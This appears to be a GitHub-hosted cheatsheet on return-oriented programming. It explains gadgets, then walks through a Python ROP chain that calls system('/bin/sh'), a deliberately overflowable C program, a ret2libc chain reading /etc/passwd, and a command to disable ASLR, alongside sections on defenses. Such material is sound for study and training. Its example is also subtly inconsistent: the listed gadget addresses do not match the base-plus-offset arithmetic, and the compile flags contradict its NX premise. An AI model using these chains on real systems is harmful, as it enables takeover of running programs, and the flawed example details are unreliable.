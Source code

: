 # Return-Oriented Programming (ROP) Cheatsheet
*A 5-Minute Technical Reference*

## What Is ROP?
ROP is an advanced exploitation technique that hijacks program control flow **without injecting new code**. Instead, it chains together existing code fragments called "gadgets" to perform malicious operations.

**Key Insight**: ROP turns a program's own legitimate code against itself by carefully orchestrating the execution sequence.

## Why ROP Exists
Modern defenses like **Data Execution Prevention (DEP/NX bit)** mark memory regions as non-executable, preventing traditional shellcode injection. ROP circumvents this by using code that's already in executable memory.

## Core Concepts

### Gadgets
Short instruction sequences ending in `ret` that perform specific operations:

```assembly
; Example gadgets found in typical programs
pop eax; ret                    ; Load value from stack into EAX
pop ebx; pop ecx; ret          ; Load two values from stack
mov [eax], ebx; ret            ; Write EBX to memory address in EAX
add eax, 0x10; ret             ; Add 16 to EAX
xor eax, eax; ret              ; Zero out EAX register
```

### Stack Layout for ROP Chain
```
High Memory
┌─────────────────┐
│   Gadget N      │ ← Final gadget address
├─────────────────┤
│   Argument 2    │ ← Data for previous gadget
├─────────────────┤
│   Gadget 2      │ ← Second gadget address  
├─────────────────┤
│   Argument 1    │ ← Data for first gadget
├─────────────────┤
│   Gadget 1      │ ← First gadget (overwrites return address)
├─────────────────┤
│   Buffer Data   │ ← Overflow padding
└─────────────────┘
Low Memory (Stack grows down)
```

## Practical Example: Calling system("/bin/sh")

### Step 1: Identify Required Gadgets
```bash
# Using ROPgadget tool to find gadgets in libc
$ ROPgadget --binary /lib/libc.so.6 --only "pop|ret"
0x7ffff7a3a738 : pop rdi; ret    # For setting first argument
0x7ffff7a3a739 : pop rsi; ret    # For setting second argument  
0x7ffff7a52390 : ret             # For stack alignment
```

### Step 2: Locate Target Function
```bash
# Find system() address in libc
$ objdump -T /lib/libc.so.6 | grep system
0000000000045390 g    DF .text  system

# Find "/bin/sh" string in libc
$ strings -a -t x /lib/libc.so.6 | grep "/bin/sh"
 18ce57 /bin/sh
```

### Step 3: Build ROP Chain (64-bit example)
```python
# Python exploit code structure
import struct

# Address calculations (assumes no ASLR for simplicity)
libc_base = 0x7ffff7a0d000
pop_rdi_ret = libc_base + 0x2a738      # pop rdi; ret gadget
bin_sh_addr = libc_base + 0x18ce57     # "/bin/sh" string
system_addr = libc_base + 0x45390      # system() function
ret_gadget = libc_base + 0x52390       # ret (for alignment)

# Build ROP chain
rop_chain = b""
rop_chain += b"A" * 72                 # Buffer overflow padding
rop_chain += struct.pack("<Q", pop_rdi_ret)  # Load argument into RDI
rop_chain += struct.pack("<Q", bin_sh_addr)  # "/bin/sh" string address
rop_chain += struct.pack("<Q", ret_gadget)   # Stack alignment  
rop_chain += struct.pack("<Q", system_addr)  # Call system()
```

### Step 4: Complete Exploit Template
```c
// Vulnerable C program example
#include <stdio.h>
#include <string.h>

void vulnerable_function(char* input) {
    char buffer[64];              // Small buffer
    strcpy(buffer, input);        // Unsafe copy - buffer overflow!
    printf("Input: %s\n", buffer);
}

int main(int argc, char* argv[]) {
    if (argc > 1) {
        vulnerable_function(argv[1]);
    }
    return 0;
}
```

```bash
# Compile with protections disabled for testing
gcc -o vulnerable -fno-stack-protector -z execstack -no-pie vulnerable.c

# Execute ROP exploit
python3 exploit.py | ./vulnerable
```

## Advanced ROP Techniques

### ret2libc Chain
```python
# Chain multiple function calls
# Goal: system("cat /etc/passwd")
rop_chain += struct.pack("<Q", pop_rdi_ret)
rop_chain += struct.pack("<Q", passwd_cmd_addr)    # "cat /etc/passwd"
rop_chain += struct.pack("<Q", system_addr)
```

### Stack Pivoting
```assembly
; When you need to move stack pointer to controlled memory
mov esp, eax; ret               ; Pivot stack to address in EAX
leave; ret                      ; mov esp, ebp; pop ebp; ret
```

## Detection and Analysis Tools

### Finding Gadgets
```bash
# ROPgadget - comprehensive gadget finder
ROPgadget --binary ./target_binary --ropchain

# ropper - alternative tool with advanced features  
ropper --file ./target_binary --search "pop rdi"

# objdump - manual gadget hunting
objdump -d ./target_binary | grep -B5 -A5 "ret"
```

### Debugging ROP Chains
```bash
# GDB with PEDA/GEF for ROP analysis
gdb ./vulnerable_program
(gdb) pattern create 100        # Create cyclic pattern
(gdb) run [pattern]             # Trigger overflow
(gdb) pattern offset [value]    # Find offset to return address
```

## Common Defenses

### Stack Canaries
```c
// Compiler inserts canary value before return address
void function() {
    unsigned long canary = __stack_chk_guard;
    char buffer[100];
    // ... function code ...
    if (canary != __stack_chk_guard) {
        __stack_chk_fail();  // Abort if canary corrupted
    }
}
```

### ASLR (Address Space Layout Randomization)
- Randomizes base addresses of executable regions
- Requires information leaks to determine gadget locations
- Can be bypassed with format string bugs or pointer disclosures

### Control Flow Integrity (CFI)
- Hardware/software checks for valid control transfers
- Intel CET (Control-flow Enforcement Technology)
- ARM Pointer Authentication

## Key Requirements for ROP
1. **Memory corruption vulnerability** (buffer overflow, format string, etc.)
2. **Executable code regions** containing useful gadgets
3. **Knowledge of memory layout** (addresses of gadgets and functions)
4. **Sufficient gadgets** to perform desired operations

## Quick Reference Commands
```bash
# Disable ASLR for testing
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

# Check binary protections
checksec --file=./binary

# Find library base address
cat /proc/[pid]/maps | grep libc

# Calculate ROP chain addresses
python3 -c "print(hex(base_addr + offset))"
```

## Summary
ROP transforms innocent code fragments into malicious execution chains by manipulating the stack and return addresses. Understanding ROP is essential for both offensive security research and developing effective mitigations. The technique remains relevant despite modern defenses, often requiring sophisticated bypass methods that combine multiple exploitation primitives.

**Remember**: ROP attacks require precise memory layout knowledge and careful gadget selection. Practice in controlled environments and always consider the ethical implications of security research.
